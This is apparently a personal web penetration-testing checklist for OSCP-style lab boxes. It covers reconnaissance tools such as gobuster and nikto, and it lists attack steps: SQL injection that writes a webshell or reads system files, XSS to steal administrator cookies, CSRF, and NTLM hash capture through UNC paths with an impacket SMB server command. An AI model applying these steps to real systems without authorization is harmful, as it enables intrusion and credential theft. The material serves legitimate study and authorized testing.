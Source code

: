 
# Checklist
- [ ] Check robots.txt
- [ ] Check sitemap.xml
- [ ] Check HTML Source Code
- [ ] Check custom CSS
- [ ] Check custom JS
- [ ] Check Headers
- [ ] Check Responses
- [ ] Crawl Website
- [ ] Create MindMap tree
- [ ] get hostname from SSL certificate
- [ ] Check Comments 
- [ ] Gobuster
- [ ] Wapplyzer
- [ ] Nikto -> `nikto -h http://ip`
- [ ] Whatweb
- [ ] Subdomains
- [ ] Virtual Hosts
- [ ] Sometimes Burp Suite doesn't gives response, use `curl`, `wget`, `nc` in this case.
- [ ] Check different methods for suspicious pages like `GET`, `POST`, `PUT`, `HEAD`, `OPTIONS`, `PATCH`, `DELETE`
- [ ] If you find `LFI` check for `RFI` too (if there is a no chance to upload file anyway)
- [ ] cewl passwords
- [ ] Check cookies
- [ ] SSTI if there is a Node.js app
- [ ] Check `phpinfo.php`. If it is available, then there is a chance to look for SQL Injection. By this way you can see the location of www from `phpinfo.php` file and you can write into while to the defined location and get webshell [CHECK](https://github.com/m3t3kh4n/OSCP/blob/main/SQL%20Injection.md#into-outfile-method-payloadallthethings).
- [ ] Check directory with the name of the box like `/Name`.
- [ ] If there are users, photos and descriptions under them, grab usernames (generally check for different name or description or photo), also descriptions can be passwords.
- [ ] XSS for stealing Administrator cookies
- [ ] CSRF for executing some commands on behalf of Administrator
- [ ] See URL place try \\<your-ip>\random share for NTLM Relay and LLMNR Poisoning
- [ ] Getting NTLM
  - [ ] File upload file URL as a share
  - [ ] JS `src` as a share
  - [ ] Command Injection
  - [ ] `impacket-smbserver sharename $(pwd) -smb2support`
- [ ] Download images and `exiftool` to look for juicy information like username
- [ ] Get emails for username

# `gobuster`
- Using Basic Auth
```
gobuster dir -u http://192.168.85.46:242/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50 -U offsec -P elite
```

## Top

```
sitemap.xml
robots.txt
api/
.git
```

# SQL Injection
1. Single quote check
2. `ORDER BY`
3. `UNION`
4. `user()`
5. `system_user()`
6. `@@datadir`
7. `LOAD_FILE('c:/windows32/system32/license.rtf')`
8. xp cmd (MS SQL)

